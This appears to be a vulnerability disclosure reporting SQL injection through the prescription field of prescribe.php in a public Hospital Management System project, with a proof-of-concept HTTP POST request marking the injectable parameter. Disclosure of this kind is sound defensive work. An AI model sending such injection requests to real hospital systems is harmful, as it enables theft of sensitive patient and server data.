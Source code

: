 # ponaravindb/Hospital-Management-System has sql injection in /prescribe.php

## supplier 

https://github.com/ponaravindb/Hospital-Management-System

## Vulnerability parameter

/ponaravind/Hospital-Management-System/bprescribe.php and $prescription

## describe

An unrestricted SQL injection attack exists in github-ponaravindb-Hospital-Management-System in prescribe.php. The parameters that can be controlled are as follows: $prescription. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $prescription parameter is obtained in prescribe.php. , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/3816a94a-3e6f-45af-8441-af8399af14f3)

![Image](https://github.com/user-attachments/assets/8f5cb045-2df7-4ae1-9490-f593c8a29bac)

![image-20250511003540676](sql94(未交).assets/image-20250511003540676.png)

## POC

```
POST /prescribe.php HTTP/1.1
Host: hospital-management-system-master
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://hospital-management-system-master
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hospital-management-system-master/prescribe.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ntn1gorbau9lbhqd4u93p5j9d6
Connection: close

disease=11&allergy=1&prescription=1*&fname=&lname=&appdate=&apptime=&pid=&ID=&prescribe=Prescribe
```

![Image](https://github.com/user-attachments/assets/022d08c4-4a7f-47bd-b912-ecc324bda7e0)

**Result**

![Image](https://github.com/user-attachments/assets/9e023356-2a0b-42c5-b8b2-58f13793dc3d)

